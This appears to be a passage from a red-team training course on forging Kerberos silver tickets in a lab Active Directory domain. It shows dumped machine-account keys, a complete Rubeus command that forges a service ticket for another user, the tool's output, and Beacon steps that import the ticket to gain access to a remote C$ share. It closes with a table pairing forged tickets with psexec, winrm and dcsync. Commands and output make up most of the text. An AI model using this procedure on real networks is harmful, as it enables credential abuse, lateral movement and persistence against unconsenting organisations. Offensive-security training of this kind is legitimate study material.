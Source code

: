 A "silver ticket" is a forged TGS, signed using the secret material (RC4/AES keys) of a computer account.  You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence.  By default, computer passwords change every 30 days, at which time you must re-obtain the new secrets to continue making silver tickets.  Both silver and golden (coming up next) tickets are forged, so can be generated on your own machine and imported into your Beacon session for use.

Let's say we dumped Kerberos keys from Workstation 1 from a SYSTEM Beacon.
```
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WKSTN-1$
Domain            : DEV
Logon Server      : (null)
Logon Time        : 9/9/2022 9:37:22 AM
SID               : S-1-5-20

	 * Username : wkstn-1$
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   aes256_hmac       c9e598cd2a9b08fe31936f2c1846a8365d85147f75b8000cbc90e3c9de50fcc7
	   rc4_hmac_nt       fc0c8a61a83bafdffc587956d0020398
	   rc4_hmac_old      fc0c8a61a83bafdffc587956d0020398
	   rc4_md4           fc0c8a61a83bafdffc587956d0020398
	   rc4_hmac_nt_exp   fc0c8a61a83bafdffc587956d0020398
	   rc4_hmac_old_exp  fc0c8a61a83bafdffc587956d0020398
```
  

On your Windows attacking machine, use Rubeus to forge a TGS for nlamb and the cifs service.
```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:c9e598cd2a9b08fe31936f2c1846a8365d85147f75b8000cbc90e3c9de50fcc7 /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : cifs
[*] Target         : wkstn-1.dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'nlamb' to 'cifs/wkstn-1.dev.cyberbotic.io'

[*] AuthTime       : 9/9/2022 10:49:41 AM
[*] StartTime      : 9/9/2022 10:49:41 AM
[*] EndTime        : 9/9/2022 8:49:41 PM
[*] RenewTill      : 9/16/2022 10:49:41 AM

[*] base64(ticket.kirbi):

      doIFXD[...]MuaW8=
```
  

Then import the ticket.
```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5668
[+] Ticket successfully imported!
[+] LUID            : 0x423091

beacon> steal_token 5668

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[*] Listing: \\wkstn-1.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
          dir     12/07/2019 09:14:52   PerfLogs
          dir     08/22/2022 00:15:03   Program Files
          dir     10/06/2021 13:57:25   Program Files (x86)
          dir     09/08/2022 13:58:46   ProgramData
          dir     08/17/2022 17:52:54   Recovery
          dir     09/06/2022 08:17:28   System Volume Information
          dir     08/16/2022 08:15:58   Users
          dir     09/09/2022 10:38:50   Windows
 8kb      fil     09/09/2022 08:37:00   DumpStack.log.tmp
 796mb    fil     09/09/2022 08:37:00   hiberfil.sys
 704mb    fil     09/09/2022 08:37:00   pagefile.sys
 16mb     fil     09/09/2022 08:37:00   swapfile.sys
```
  

Here are some useful ticket combinations:

|   |   |
|---|---|
|**Technique**|**Required Service Tickets**|
|psexec|CIFS|
|winrm|HOST & HTTP|
|dcsync (DCs only)|LDAP|